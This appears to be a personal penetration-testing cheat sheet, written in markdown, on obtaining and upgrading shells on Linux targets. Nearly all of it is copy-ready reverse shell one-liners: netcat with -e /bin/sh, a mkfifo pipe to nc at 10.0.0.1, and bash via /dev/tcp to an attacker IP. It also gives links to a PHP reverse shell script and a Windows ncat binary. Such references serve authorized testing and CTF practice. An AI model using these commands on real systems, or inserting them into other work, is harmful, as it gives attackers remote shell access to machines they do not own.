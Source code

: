 # Shells
Tags: #upgrade #python #nc #netcat #php #privesc #linux 

## Python shell upgrade
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Full shell capabilities, phineas style
[Guide](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-3-upgrading-from-netcat-with-magic)

## Python shells
https://github.com/infodox/python-pty-shells

## Bash
### nc reverse shell shit
**Note**: full paths might be necessary. `-e` is kinda rare
```
# Target
/bin/nc attacker-machine-ip port -e /bin/sh

# Host
nc -nlvp localhost port
```

### bash mkfifo reverse shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Plain bash
```
/bin/bash -c 'bash -i >& /dev/tcp/$YOURIP/$REVSHELLPORT 0>&1'
```

## ncat static binary for Windows
https://github.com/andrew-d/static-binaries/blob/master/binaries/windows/x86/ncat.exe

## PHP reverse shell
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php